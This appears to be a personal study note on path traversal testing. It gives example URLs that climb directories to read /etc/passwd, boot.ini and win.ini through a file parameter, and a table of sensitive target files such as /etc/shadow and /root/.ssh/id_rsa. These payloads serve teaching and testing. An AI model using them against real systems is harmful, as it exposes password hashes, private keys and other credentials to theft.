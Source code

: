 ```yaml
---
title: Path Traversal
updated: 2022-11-25T15:01:46.0000000+04:00
created: 2022-11-25T14:53:23.0000000+04:00
---
```


Path Traversal
Friday, November 25, 2022
2:53 PM
allows an attacker to read operating system resources, such as local files on the server running an application.

![image1](image1-173.png)

**To Test:**

- Type the domain name followed by **/get.php?file=../../../../etc/passwd**

- <http://webpagename.com/get.php?file=../../../../etc/passwd>

**To Test of Windows Servers:**

- Type the domain name followed by **/get.php?file=../../../../boot.ini**

- <http://webpagename.com/get.php?file=../../../../boot.ini>
- <http://webpagename.com/get.php?file=../../../../windows/win.ini>

**<u>Common OS File to use when testing:</u>**

<table>
<colgroup>
<col style="width: 31%" />
<col style="width: 68%" />
</colgroup>
<thead>
<tr class="header">
<th>Location</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>/etc/issue</td>
<td>Contains a message or system identification to be printer before the login prompt</td>
</tr>
<tr class="even">
<td>/etc/profile</td>
<td>Controls system wide default variables, such as Export variables</td>
</tr>
<tr class="odd">
<td>/proc/version</td>
<td>specifies the version of the Linux kernel</td>
</tr>
<tr class="even">
<td>/etc/passwd</td>
<td>has all registered user that has access to a system</td>
</tr>
<tr class="odd">
<td>/etc/shadow</td>
<td>contains information about the system's users' passwords</td>
</tr>
<tr class="even">
<td>/root/.bash_history</td>
<td>contains the history commands for root user</td>
</tr>
<tr class="odd">
<td>/var/log/dmessage</td>
<td>contains global system messages, including the messages that are logged during system startup</td>
</tr>
<tr class="even">
<td>/var/mail/root</td>
<td>all emails for root user</td>
</tr>
<tr class="odd">
<td>/root/.ssh/id_rsa</td>
<td>Private SSH keys for a root or any known valid user on the server</td>
</tr>
<tr class="even">
<td><p>/var/log/apache2/access.log</p>
<p></p></td>
<td>the accessed requests for Apache webserver</td>
</tr>
<tr class="odd">
<td>C:\boot.ini</td>
<td>contains the boot options for computers with BIOS firmware</td>
</tr>
</tbody>
</table>

